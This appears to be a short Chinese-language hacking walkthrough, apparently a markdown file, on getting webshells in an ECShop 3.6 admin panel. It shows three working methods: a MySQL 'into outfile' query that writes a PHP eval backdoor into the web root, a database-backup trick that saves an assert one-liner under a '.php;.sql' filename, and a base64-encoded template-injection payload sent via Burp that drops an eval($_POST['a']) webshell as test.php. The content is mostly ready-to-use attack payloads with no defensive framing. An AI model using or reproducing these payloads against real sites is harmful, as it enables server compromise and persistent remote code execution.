




1) 执行数据库命令拿webshell

```
select '<?php eval($_POST[cmd])?>' into outfile 'E:/phpStudy/PHPTutorial/WWW/www.ecshop36.com/ecshop/moon.php'
```



2) 数据库备份拿webshell

找一个数据表 插入一句话，再进行备份，备份的格式是.php;

插入一句话

```
<?php assert($_POST[cmd]);?>
```

写入一句话



备份

http://www.ecshop36.com/data/sqldata/20180308yoqpfo.php;.sql

3) 代码执行拿webshell

访问http://www.ecshop36.com/admin/order.php?act=edit_templates，通过burp修改请求方法为post



添加一句话test.php  一句话的密码是a

```
FCKeditor1={$u'];assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJ3Rlc3QucGhwJyxiYXNlNjRfZGVjb2RlKCdQRDl3YUhBZ1FHVjJZV3dvSkY5UVQxTlVXeWRoSjEwcE96OCsnKSk7==')); //_var['}<?
```

打印订单

http://www.ecshop36.com/admin/test.php
